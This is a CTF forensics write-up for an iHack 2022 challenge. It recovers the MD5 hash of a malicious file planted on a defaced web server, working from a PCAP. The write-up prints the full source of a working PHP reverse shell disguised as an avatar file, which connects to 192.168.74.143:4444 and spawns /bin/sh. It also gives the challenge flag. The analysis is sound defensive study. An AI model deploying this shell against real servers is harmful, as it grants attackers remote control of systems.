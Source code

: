 # DFIR 1

**Challenge Description:** iHack's web server have been defaced. Provide us the MD5 hash of the malicious file in the web server from this PCAP.

**Flag Format:** `ihack{MD5}`

### Solution

We can first analyze the PCAP file in `Wireshark` by doing `Follow TCP Streams`. However, due to the overwhelmingly amount of files, using `NetworkMiner` would be a better option.
![Screenshot](./Screenshot.png)

A PHP reverse shell was found on stream `TCP 61440`. 

```
<?php
// PHP Reverse Shell
// Copyright (C) 2020 e@hotmail.com
// AbuDayeh
set_time_limit (0);
$VERSION 	= "1.0";
$ip 		= '192.168.74.143'; 	// Change Your {IP}
$port 		= 4444;       	// Change Your {Port}
$chunk_size 	= 1400;
$write_a 	= null;
$error_a 	= null;
$shell 		= 'echo "V2VsY29tZSB0byBpaGFjayAyMDIyLiBtZDUgdGhpcyB3ZWJzaGVsbA==" | base64 -d; /bin/sh -i';
$daemon 	= 0;
$debug 		= 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	if ($pid) {
		exit(0);
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
chdir("/");
umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?>
```

This can be verified by viewing the base64 encoded payload embedded in the PHP file.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ echo "V2VsY29tZSB0byBpaGFjayAyMDIyLiBtZDUgdGhpcyB3ZWJzaGVsbA==" | base64 -d
Welcome to ihack 2022. md5 this webshell
```

Retrieve the MD5 hash of the PHP web shell.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ md5sum /home/kali/Desktop/NetworkMiner_2-7-3/AssembledFiles/192.168.74.1/TCP-61440/avatar-1606914__480.php
8472a0454391a40792173708866514ef  /home/kali/Desktop/NetworkMiner_2-7-3/AssembledFiles/192.168.74.1/TCP-61440/avatar-1606914__480.php
```

**Flag:** `ihack{8472a0454391a40792173708866514ef}`
